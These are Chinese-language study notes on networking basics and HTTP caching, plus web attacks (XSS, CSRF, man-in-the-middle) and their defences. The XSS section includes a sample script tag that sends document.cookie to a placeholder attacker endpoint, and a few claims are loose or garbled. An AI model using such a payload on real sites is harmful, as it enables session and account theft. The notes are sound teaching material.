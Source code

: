 ```yaml
---
title: 网络
tags: 知识点
--- 
```

# 网络

## OSI 7 层参考模型

## TCP/IP 协议

1. 应用层(`HTTP`/`HTTPS`/`DNS`)
2. 传输层(`TCP`/`UDP`)
3. internet 层(`IP`)
4. 网络接口层(`物理接口`)

### TCP

**Transmisson Control Prorocol**

1. 连接建立
2. 可靠性传输
   特点： 三次握手四次挥手

### UDP

**User DataGram Protocol**

1. 非连接，不可靠传输方式
2. 效率高，速度快，适合音频和视频

### DNS

**Domain Name System**
域名解析系统
怎么查找域名：
DNS 域名解析采用的是递归查询的方式，过程，DNS 缓存>根域名服务器>根域名下一级

## HTTP 协议

Hypertext Transfer Protocol
超文本传输协议

## 缓存

数据库缓存、服务器端缓存（`nginx`、`CDN 缓存`）、浏览器缓存  
浏览器缓存由包含很多内容：`HTTP 缓存`、`indexDB`、`cookie`、`localstorage `等等

### HTTP 缓存

强缓存和协商缓存的区别就是，强缓存是不需要发请求到服务器的，而协商缓存是需要浏览器发送请求到服务器判断本地的缓存是否失效，若不失效则不请求服务器，反之请求服务器获取最新资源

### 强缓存

命中强缓存时，状态码为 200（Size 列标识为 from cache）的响应请求，利用 `Expire`s 和` Cache-Control` 控制强缓存。

1. Expires
   该值是响应头的字段，指定缓存到期的时间， `Expires=时间`，该时间为绝对时间，`Last-Modify` 结合使用
2. Cache-Control
   该值是响应头的字段，指定缓存到期的时间，`Cache-Control=max-age+时间`，该事件为相对时间

`Cache-Control` 优先级比 `Expires` 高
优点：  
服务器配置有限，降低服务器压力，1 台服务器能做到 10 台服务器的能力

> <- Expires: xxxx
> <- Cache-Control:max-age=600

### 协商缓存

命中协商缓存时，状态码为 304，利用 `Last-Modify/If-Modify-Since`

1. Last-Modify/If-Modify-Since
   第一次请求服务器，返回时会带上 `Last-Modify` 的响应头，标识着该资源最后修改时间，第二次请求时会带上 `If-Modify-since` 请求头，值为第一次响应的 `Last-Modify` 值，服务器会根据 `If-Modify-since` 判断是否命中缓存，**如果命中则不请求服务器，返回 304**，不返回 `Last-Modify`  
   第一次响应： `Last-Modify`  
   第二次请求： `If-Modify-since`
2. Etag/If-None-Match
   `Etag/If-None-Match` `返回的是一个校验码，Etag` 保证每个资源时唯一的，资源的变化都为导致 Etag 改变，服务器根据浏览器发送的 `If-None-Match` 判断是否命中缓存
   两者会优先验证 `Etag`,两种区别：

- 精度问题，第一种的精度时精确到秒，当资源的改变在秒级的时候，不太准确。所以由了 `Etag`
- 文件定期生成，当内容一样时，无法使用 `Last-Modify` 这一套
- 有可能存在服务器没有准确获取文件修改时间等，`Last-Modify` 也不能使用

> <- last-modifed: xxx
> -> if-modified-since: xxx
> <- etag: bbb
> -> if-noe-match: bbb

# web 安全

## 浏览器如何获取到 Cookie

- 利用接口响应的 Set-Cookie 字段  
  有哪些属性

1. domain
2. max-age、Express
3. httponly
4. name=value

## XSS (Cross-Site-Script) 跨站脚本攻击

恶意攻击者，将一些恶意代码插入到网页，当用户访问的时候自动执行这段代码，从而达到攻击者目的

1. 反射型
   特点： 一次性  
   用户点开带有恶意的 url（含有 script），浏览器将此段发送给服务端，服务端返回客户端，此时浏览器识别到可执行代码将其执行
2. 存储型
   特点：恶意代码存储到服务器  
   攻击者提交含有 script 标签的恶意代码表单到服务器，服务端将其保存，展示给其他用户时执行恶意代码

### 实现过程

1. 将 `<script scr="https://攻击者接口?cookie=document.cookie"> </script>`， 注册成用户名， 提交给服务端，服务端保存
2. 用户登录，如果查看到这个攻击者的账号信息相关，那么会执行恶意代码，将 cookie 拿到，发送到攻击者接口
3. 攻击者事先会收集各种接口，找到相关可以获取到用户的接口
4. 通过 cookie 获取到用户信息（手机号等）等

### 用途

1. 冒充身份
2. 刷点击（注入文章地址）
3. 弹广告（注入一段创建弹窗的代码）
4. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 输入过滤，对于特殊符号等不允许提交
2. httponly
3. 转义 HTML 比如： `< => &lt` 、 `> => &gt`

## CSRF (Cross-Site-Request-Forgery) 跨站点请求伪造

诱导受害者去到攻击者的网站，攻击者网站发起了相关请求，并且带上了受害者 cookie，从而可以做一些恶意的操作

前提： 浏览器没有严格执行同源政策，请求所在网站必须和请求的接口同源，就有可能发生 CSRF

### 实现过程

1. 受害者登录信任网站
2. 未关闭含有 cookie 的信任网站
3. 诱导受害者去攻击者网站（如果配合 XSS 此时可能会直接跳转，或者弹窗诱导到攻击者网站）
4. 在攻击者网站（用隐藏表单自动发送请求，img/src 自动 get 请求等骚操作...）发起信任网站相关接口，此时会携带用户的 cookie，冒充用户

### 用途

1. 冒充身份
2. 蠕虫病毒（冒充身份去发送邮件，联系人点开又会冒充去发送邮件....）

### 怎么防御

1. 用验证码，信任网站开启验证码，而攻击者网站没办法获取正确验证码
2. Referer ，表明请求的站点地址，但是有可能存在伪造 `Referer` 头
3. token，客户端接收服务端的 token，保存在隐藏区域（本地存储，隐藏的 html 元素，代码内存等），请求带上 token
4. 使用带有同源政策的浏览器，升级到默认开启严格模式版本

## 中间人攻击

是在数据传输时发生的攻击手段。截取 http 在传输时数据包，获取用户信息，篡改信息，篡改密钥
